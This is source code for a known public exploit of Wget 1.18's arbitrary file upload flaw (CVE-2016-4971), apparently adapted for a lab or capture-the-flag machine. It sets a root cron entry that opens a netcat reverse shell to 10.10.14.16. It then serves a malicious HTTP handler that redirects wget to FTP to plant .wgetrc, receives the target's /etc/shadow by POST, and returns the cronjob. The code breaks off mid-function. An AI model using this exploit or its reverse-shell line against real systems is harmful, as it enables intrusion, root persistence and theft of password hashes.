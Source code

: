 ```python
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.16'
FTP_PORT = 21
ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 443 >/tmp/f \n"
```

```python
#!/usr/bin/env python                                           
                                
#
# Wget 1.18 < Arbitrary File Upload Exploit                                                                                      
# Dawid Golunski                                                
# dawid( at )legalhackers.com                                                                                                    #           
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#                                                                                                                                
# CVE-2016-4971                                                                                                                  #               
                                
import SimpleHTTPServer                                         
import SocketServer      
import socket;                                                  

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):                                                                    
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")                                                                             
          return
                                                                                                                                 
       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)                                  
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)     
       self.send_header('Location', new_path) 
       self.end_headers()
                                                                                                                                 
   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob
       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
```